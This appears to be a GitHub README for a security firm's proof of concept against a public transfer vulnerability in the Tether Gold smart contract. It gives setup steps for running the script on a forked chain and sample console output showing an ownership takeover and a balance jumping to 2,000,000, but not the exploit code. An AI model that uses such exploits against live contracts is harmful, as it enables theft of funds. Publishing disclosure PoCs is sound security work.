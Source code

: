 # TGoldPoc

This repo contains the PoC of the [public transfer vulnerability in the Tether Gold contract](https://blocksec.com/blog/public-transfer-vulnerability-of-the-tether-gold-smart-contract).


To use this PoC, sign up in [Phalcon Fork](https://blocksec.com/phalcon/fork). Then add the access key to the PoC.


This PoC requires the web3.py, please install it first to use the PoC.

```
>>python tgold.py
--------------------start ----------
[*] Insufficent fund in "0x189e7947a9D9210eEC3A41dCf5f536bb1D7726F5". Get some Ether from vitalik.
[*] Insufficent fund in "0x14C4fffd8748CF0E23Af945a11eeaBC3416dD4c1". Get some Ether from vitalik.
[*] 0xAC3B242E2E561da9F4cE34746E67d004E6341FA0 Submit a transaction in the multisig wallet to transferOwnership to 0x189e7947a9D9210eEC3A41dCf5f536bb1D7726F5.
proposal_id: 2207
[*] Confirmed the transaction by 0xEe5207d3c88562fc814496Af0845B34CFD4afc8c.
[*] Confirmed the transaction by 0x61D5a4d5Bd270e59E9320243e574288e2a199fED.
[*] The pool owner is "0x189e7947a9D9210eEC3A41dCf5f536bb1D7726F5"
[*] Add a new owner "0x189e7947a9D9210eEC3A41dCf5f536bb1D7726F5" to TGold contract
[*] Before the attack - balance: 0
[*] Lunch the attack
[*] After the attack - balance: 2000000
[*] Pwned!
```

If you have any question please contact us contact@blocksec.com.



